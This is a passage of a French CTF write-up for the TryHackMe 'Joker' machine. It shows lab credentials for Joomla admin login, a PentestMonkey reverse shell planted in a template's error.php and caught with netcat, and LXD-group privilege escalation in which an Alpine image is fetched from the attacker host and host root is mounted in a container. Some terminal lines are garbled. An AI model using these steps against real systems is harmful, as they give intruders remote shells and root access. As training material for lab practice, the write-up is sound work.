ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?</td><td>admin</td></tr><tr><td>Super Duper User! What is the password?</td><td>abcd1234</td></tr></tbody></table>

## \[Task 3] Exploitation

Passons à l'exploitation des données récoltées pour prendre pied dans la machine cible.

Commençons par nous connecter à Joomla avec les crédentiels **admin:abcd1234**.

<figure><figcaption><p>administrator login</p></figcaption></figure>

<figure><figcaption><p>joomla control panel</p></figcaption></figure>

<figure><figcaption><p>Beez3 style page</p></figcaption></figure>


<figure><figcaption><p>template customisation</p></figcaption></figure>

<figure><figcaption><p>reverse shell PentestMonkey</p></figcaption></figure>

<figure><figcaption><p>reverse shell paste dans error.php</p></figcaption></figure>

Affichons la page error.php dans firefox

**http://10.10.238.221:8080/templates/beez3/error.php**

<figure><figcaption><p>reverse shell firefox</p></figcaption></figure>

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.9.1.183] from (UNKNOWN) [10.10.238.221] 44882
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:28:14 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
bash: cannot set terminal process group (617): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
www-data@ubuntu:/$  
```

Comme à chaque fois, [consolidons ce shell](outils.md#consolidation-dun-shell)

## \[Task 4] Escalade des privilèges \[lxd]

A priori nous devrions passer par[ ma méthode d'escalade des privilèges habituelle](outils.md#privilege-escalation) mais comme nous avons constaté que l'utilisateur courant \[www-data] était membre du groupe **\[lxd], n**ous allons pouvoir faire [une escalade de privilèges en utilisant une faille dans la mise en place de conteneurs LXD](outils.md#escalade-de-privileges-via-lxd)

### 1. Sur la machine Kali

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42 (from 1)
Receiving objects: 100% (50/50), 3.11 MiB | 28.71 MiB/s, done.
Resolving deltas: 100% (15/15), done.
                                                                                                                       
┌──(kali㉿kali)-[~/THM/joker]
└─$ cd lxd-alpine-builder
                                                                                                                       
┌──(kali㉿kali)-[~/THM/joker/lxd-alpine-builder]
└─$ sudo ./build-alpine
Determining the latest release... v3.20
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.20/main/x86_64
Downloading alpine-keys-2.4-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
...
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.14.4-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
ERROR: checksum is missing for sha256.alpine-devel@lists.alpinelinux.org-6165ee59.rsa.pub
Failed to download a valid static apk
                                                                                                                       
┌──(kali㉿kali)-[~/THM/joker/lxd-alpine-builder]
└─$ ls -l
total 3228
-rw-rw-r-- 1 kali kali 3259593 Nov 19 10:10 alpine-v3.13-x86_64-20210218_0139.tar.gz
-rwxrwxr-x 1 kali kali    8060 Nov 19 10:10 build-alpine
-rw-rw-r-- 1 kali kali   26530 Nov 19 10:10 LICENSE
-rw-rw-r-- 1 kali kali     768 Nov 19 10:10 README.md
drwxr-xr-x 5 root root    4096 Nov 19 10:10 rootfs
                                                                                                                       
┌──(kali㉿kali)-[~/THM/joker/lxd-alpine-builder]
└─$ python3 -m http.server 8000  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...


```

### 2. Sur la machine cible

```
www-data@ubuntu:/$ cd /dev/shm
www-data@ubuntu:/dev/shm$ wget http://10.9.2.156:8000/alpine-v3.13-x86_64-202102118_0139.tar.gz
--2024-11-19 01:16:38--  http://10.9.2.156:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.9.2.156:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: 'alpine-v3.13-x86_64-20210218_0139.tar.gz'

alpine-v3.13-x86_64 100%[===================>]   3.11M  4.70MB/s    in 0.7s    

2024-11-19 01:16:39 (4.70 MB/s) - 'alpine-v3.13-x86_64-20210218_0139.tar.gz' saved [3259593/3259593]
www-data@ubuntu:/dev/shm$ ls -l
total 3184
www-data www-data 3259593 Nov 19 01:10 alpine-v3.13-x86_64-20210218_0139.tar.gz-rw-rw-rw- 1 
ar.gz shm$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
www-data@ubuntu:/dev/shm$ lxc image list     
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Nov 19, 2024 at 9:20am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
www-data@ubuntu:/dev/shm$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Creating mycontainer
=/ path=/mnt/root recursive=truenfig device add mycontainer mydevice disk source=
Device mydevice added to mycontainer
www-data@ubuntu:/dev/shm$ lxc start mycontainer
www-data@ubuntu:/dev/shm$ lxc exec mycontainer /bin/sh
~ # whoami
root

```

Ne pas oublier d'aller dans le répertoire /mnt/root du conteneur pour y retrouver tous les fichiers de la machine cible.

```
~ # cd /mnt/root
/mnt/root # ls -l
total 970048
drwxr-xr-x    2 root     root          4096 Oct  8  2019 bin
drwxr-xr-x    3 root     root          4096 Oct  8  2019 boot
drwxr-xr-x   17 root     root          3700 Nov 19 08:54 dev
drwxr-xr-x   85 root     root          4096 Oct 25  2019 etc
drwxr-xr-x    3 root     root          4096 Oct  8  2019 home
lrwxrwxrwx    1 root     root            33 Oct  8  2019 initrd.img -> boot/initrd.img-4.15.0-55-generic
lrwxrwxrwx    1 root     root            33 Oct  8  2019 initrd.img.old -> boot/initrd.img-4.15.0-55-generic
drwxr-xr-x   20 root     root          4096 Oct  8  2019 lib
drwxr-xr-x    2 root     root          4096 Oct  8  2019 lib64
drwx------    2 root     root         16384 Oct  8  2019 lost+found
drwxr-xr-x    4 root     root          4096 Oct  8  2019 media
drwxr-xr-x    2 root     root          4096 Aug  5  2019 mnt
drwxr-xr-x    3 root     root          4096 Oct  8  2019 opt
dr-xr-xr-x  118 root     root             0 Nov 19 08:54 proc
drwx------    5 root     root          4096 Oct 25  2019 root
drwxr-xr-x   21 root     root           660 Nov 19 09:23 run
drwxr-xr-x    2 root     root          4096 Oct  8  2019 sbin
drwxr-xr-x    2 root     root          4096 Aug  5  2019 srv
-rw-------    1 root     root     993244160 Oct  8  2019 swapfile
dr-xr-xr-x   13 root     root             0 Nov 19 08:54 sys
drwxrwxrwt   11 root     root          4096 Nov 19 09:20 tmp
drwxr-xr-x   10 root     root          4096 Oct  8  2019 usr
drwxr-xr-x   12 root     root          4096 Oct  8  2019 var
lrwxrwxrwx    1 root     root            30 Oct  8  2019 vmlinuz -> boot/vmlinuz-4.15.0-55-generic
lrwxrwxrwx    1 root     root            30 Oct  8  2019 vmlinuz.old -> boot/vmlinuz-4.15.0-55-generic
/mnt/root # cd root
/mnt/root/root # ls
final.txt
/mnt/root/root # cat final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!		
							
Contact us here:						
								
Hacking Articles : https://twitter.com/rajchandel/		
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114								
								
+-+-+-+-+-+ +-+-+-+-+-+-+-+					
 |E|n|j|o|y| |H|A|C|K|I|N|G|			
 +-+-+-+-+-+ +-+-+-+-+-+-+-+	
/mnt/root/root # 
```

### 3. Réponse à la dernière question

<table><thead><tr><th width="541">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>What is the name of the file in the /root directory?</td><td>final.txt</td></tr></tbody></table>

